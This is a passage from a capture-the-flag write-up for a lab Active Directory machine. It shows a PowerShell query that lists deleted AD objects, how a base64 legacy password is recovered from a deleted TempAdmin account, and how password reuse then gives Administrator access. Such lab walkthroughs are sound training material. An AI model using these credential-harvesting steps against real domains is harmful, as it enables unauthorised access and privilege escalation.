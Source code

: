 This means we can restore and view deleted items. We can run this one-liner:

```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

Within the output, we would see another `CascadeLegacyPw` field.&#x20;

```
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
```

This decodes to give `baCT3r1aN00dles`, and I noticed this was for a user called `TempAdmin`. By testing password reuse, we find that we can login as the Administrator using this password.&#x20;

<figure><img src="../../../.gitbook/assets/image (17) (9).png" alt=""><figcaption></figcaption></figure>

Rooted!
